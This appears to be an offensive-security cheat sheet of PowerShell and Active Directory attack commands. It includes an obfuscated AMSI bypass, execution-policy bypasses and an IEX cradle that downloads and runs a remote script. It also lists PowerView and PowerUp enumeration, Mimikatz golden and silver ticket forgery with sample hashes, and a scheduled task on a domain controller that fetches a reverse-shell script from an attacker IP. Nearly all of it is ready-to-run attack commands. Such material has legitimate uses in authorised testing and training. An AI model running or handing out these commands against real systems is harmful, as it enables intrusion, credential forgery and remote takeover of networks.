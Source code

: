 # Commands

# Powershell Basics

#### Help
```
Get-Help Get-Help
Get-Help *
Get-Help process
Get-Help Get-Item -Full
Get-Help Get-Item -Examples
```
#### Modules
```Import-Module modulepath```

```Get-Command -Module <modulename>```



#### Filter property string search

```Get-ADUser -Filter * | Where-Object {$_.Name -like '*smith*'}```
  
```Get-Service | Where-Object {$_.DisplayName -like '*Windows*'}```



```Get-Process | Select-Object -Property * | Where-Object { $_.psobject.Properties.Value -like '*chrome*' }```

```Get-Process | Select-Object -Property * | Where-Object { $_.* -like '*chrome*' }```

```Get-ANYTHING  | Select-Object -Property * | Where-Object { $_.* -like '*admin*' }```

# Running Powershell
#### Lazy AMSI Bypass
```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ); ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

```
$var1 = 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx'; $var2 = [TYpE]("{1}{0}"-F'F','rE'); $var3 = (GeT-VariaBle ("1Q2U" +"zX") -VaL)."A`ss`Embly"."GET`TY`Pe"("{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'); $var4 = $var3."g`etf`iElD"(("{0}{2}{1}" -f'amsi','d','InitFaile'), ("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,')); $var4."sE`T`VaLUE"(${n`ULl},${t`RuE})
```

#### EP Bypass
Start PowerShell from cmd.exe:

```Powershell- c <cmd>```

```powershell.exe -ep bypass```

OR If already running-

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass```

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted```

```$Env:PSExecutionPolicyPreference = 'Bypass'```

# PS Ingress

#### Execution cradle
```IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')```

#### download
```(new-object System.Net.Webclient).DownloadFile("https://raw.githubusercontent.com/conma293/mvp/main/1.ps1", "C:\Windows\Temp\1.ps1")```

# Powerview
```. .\PowerView.ps1```
#### User Search
```Get-DomainUser```
```Get-DomainUser –Identity bob```

```Get-ADUser -Filter * -Properties *```
```Get-ADUser -Identity bob -Properties *```

#### Group Membership
```Get-DomainGroupMember -Identity "Domain Admin*" -Recurse```

```Get-DomainGroupMember -Identity "Domain Admin*" | select GroupName, MemberName```

```Get-ADGroupMember -Identity "Domain Admins" -Recursive```


```Get-DomainGroup –UserName "bob"```
#### Machines

```Get-DomainComputer```

```Get-DomainComputer –OperatingSystem "*Server 2016*" ```

```Get-DomainComputer -Ping```

```Get-DomainComputer -FullData```

```Get-ADComputer -Filter * | select Name```

```Get-ADComputer -Filter 'OperatingSystem -like "*Server 2016*"' - Properties OperatingSystem | select Name,OperatingSystem```

```Get-ADComputer -Filter * -Properties *```

```Get-ADComputer -Filter *  -Properties DNSHostName | %{Test- Connection -Count 1 -ComputerName $_.DNSHostName}```




```Get-NetLocalGroup -ComputerName WKSNTl -ListGroups``` List all the local groups on a machine (needs admin privs on non-
dc machines)

```Get-NetLocalGroup -ComputerName WKSNTl -Recurse``` Get members of all the local groups on a machine (needs admin privs on non-dc machines)


```Get-NetLoggedon –ComputerName <servername>``` (needs localadmin)

```Get-LoggedonLocal -ComputerName``` (needs localadmin)

#### Shares, GPOs, etc


```Invoke-ShareFinder –Verbose```
```Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC –Verbose```

```Invoke-FileFinder –Verbose```

```Get-NetFileServer```


#### User Hunting

```Run Find-LocalAdminAccess``` - find all machines on current domain where current user has localadmin access

```Run Find-LocalAdminAccess -CheckAccess``` - list sessions where you have access to the machine

```Invoke-UserHunter``` for users/groups you want - will show all active sessions for users/users of specified groups

```Invoke-UserHunter -GroupName "RDPUsers"```

#### Priv Esc

Run PowerUp - are you already localadmin?
```
../PowerUp.ps1
Invoke-AllChecks 
```


```Get-UnquotedService```

```Get-ModifiableService```

```Get-ModifiableServiceFile | select servicename, abusefeature```

# Tickets

NTLM == RC4

#### Golden

```
Invoke-Mimikatz -Command '"kerberos::golden 
/User:DonaldDuck /domain:ecorp.local /sid:S-1-5-21-1874506631-3219642033-
538555522 /krbtgt:731a061e57100b658bc59d71f5176e93
id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

#### Silver
SPNs - https://adsecurity.org/?page_id=183
```
Invoke-Mimikatz -Command '"kerberos::golden 
/domain:ecorp.local /sid:S-1-5-21-1874506631-3219642033-
538555522 /target:dc01.ecorp.local /service:HOST 
/rc4:731a061e57100b658bc59d71f5176e93 /user:Administrator /ptt"
```

```
schtasks /create /S dc01.ecorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "Updater123" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.3.111:8080/Invoke-PowerShellTcp.ps1'')'"
```

```
schtasks /Run /S dc01.ecorp.moneycorp.local /TN "Updater123"
```
